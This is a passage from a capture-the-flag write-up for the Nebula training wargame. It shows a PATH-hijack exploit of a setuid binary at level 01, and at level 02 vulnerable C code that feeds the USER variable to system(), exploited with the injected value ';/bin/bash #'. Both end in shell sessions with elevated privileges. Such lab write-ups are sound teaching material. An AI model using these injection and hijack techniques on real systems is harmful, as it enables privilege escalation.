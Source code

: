 Setting `PATH` to look up `/home/level01` first will make the
`/home/flag01/flag01` binary execute `/home/level01/echo` instead of
`/bin/echo`

```shell
level01@nebula:~$ PATH=/home/level01:$PATH /home/flag01/flag01
flag01@nebula:~$ whoami
flag01
flag01@nebula:~$ id
uid=998(flag01) gid=1002(level01) groups=998(flag01),1002(level01)
flag01@nebula:~$ getflag
You have successfully executed getflag on a target account
```

# level 02

We are given the below source code containing a vulnerability.

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);

  system(buffer);
}
```

This is a classic command injection where the value of the `USER` environmental
variable is passed directly into the `system()` function.

```shell
level02@nebula:~$ USER=";/bin/bash #" /home/flag02/flag02
about to call system("/bin/echo ;/bin/bash # is cool")

flag02@nebula:~$ whoami
flag02
flag02@nebula:~$ id
uid=997(flag02) gid=1003(level02) groups=997(flag02),1003(level02)
flag02@nebula:~$ getflag
You have successfully executed getflag on a target account
```
